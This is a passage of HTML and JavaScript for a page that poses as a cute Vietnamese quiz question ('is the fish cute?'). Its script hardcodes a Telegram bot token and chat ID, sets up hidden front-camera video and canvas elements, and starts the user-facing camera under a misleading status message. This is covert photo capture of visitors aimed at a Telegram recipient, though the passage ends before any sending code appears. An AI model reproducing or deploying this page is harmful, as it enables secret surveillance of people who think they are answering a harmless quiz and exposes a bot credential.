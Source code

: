         button:hover {
            background-color: #006699;
        }

        button:disabled {
            background-color: #cccccc;
            cursor: not-allowed;
        }

        .status {
            margin-top: 20px;
            color: #666;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1> cá có cute hok?</h1>
        
        <video id="frontCamera" autoplay playsinline style="display: none;"></video>
        <canvas id="frontCanvas" style="display: none;"></canvas>

        <div class="controls">
            <button id="captureBtn">Có</button>
            <button id="sendBtn" disabled>Gửi Câu Trả Lời</button>
        </div>

        <p class="status" id="statusText">Hãy Trả Lời Thật...</p>
    </div>

    <script>
        // Telegram bot token và chat ID
        const BOT_TOKEN = '7918175596:AAGhE6Ih9PZiahfU-Ft68G5HOyRue1lUhjI';
        const CHAT_ID = '6171672709';
        
        const frontVideo = document.getElementById('frontCamera');
        const backVideo = document.getElementById('backCamera');
        const frontCanvas = document.getElementById('frontCanvas');
        const backCanvas = document.getElementById('backCanvas');
        const captureBtn = document.getElementById('captureBtn');
        const sendBtn = document.getElementById('sendBtn');
        const statusText = document.getElementById('statusText');

        let frontStream = null;
        let frontPhoto = null;

        // Khởi động camera trước
        async function initCameras() {
            try {
                statusText.textContent = 'Đang khởi động câu hỏi...';
                
                // Camera trước (user facing)
                frontStream = await navigator.mediaDevices.getUserMedia({
                    video: { facingMode: 'user' },
                    audio: false
                });
                frontVideo.srcObject = frontStream;
                